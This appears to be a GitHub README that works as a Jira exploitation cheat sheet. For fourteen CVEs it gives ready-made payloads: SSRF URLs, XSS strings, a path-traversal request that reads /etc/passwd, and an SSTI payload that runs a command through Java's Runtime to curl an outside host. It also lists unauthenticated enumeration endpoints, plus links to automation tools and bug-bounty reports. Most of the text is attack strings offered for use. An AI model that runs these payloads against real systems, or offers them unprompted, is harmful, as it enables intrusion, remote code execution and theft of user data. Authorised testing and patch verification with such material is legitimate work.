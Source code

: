 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-5230 (XSS)
**3** | CVE-2018-20824 (XSS)
**4** | CVE-2019-3396 (Path Traversal)
**5** | CVE-2019-3402 (XSS)
**6** | CVE-2019-3403 (User Enumeration)
**7** | CVE-2019-8442 (Sensitive Information Disclosure)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-8451 (SSRF)
**10** | CVE-2019-11581 (SSTI)
**11** | CVE-2020-14178 (Project Key Enumeration)
**12** | CVE-2020-14179 (Sensitive Information Disclosure)
**13** | CVE-2020-14181 (User Enumeration)
**14** | CVE-2020-36289 (Username Enumeration)
**15** | Tools
**16**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```

##### CVE-2018-5230 (XSS)
```
http://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```


#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

#### CVE-2019-8451 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```
#### CVE-2020-36289 (Username Enumeration)
```
Navigate to <JIRA_URL>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
```
```
 For target.atlassian(.)net, check this endpoints: 
/servicedesk/customer/user/signup [Able to login? Vuln:)]
/jira/projects [Can see projects? Vuln:) Now click on sign in and use OAuth]
```

```
jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
```

```
jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100
```
















#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
[Automation Script](https://github.com/MayankPandey01/Jira-Lens) 

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
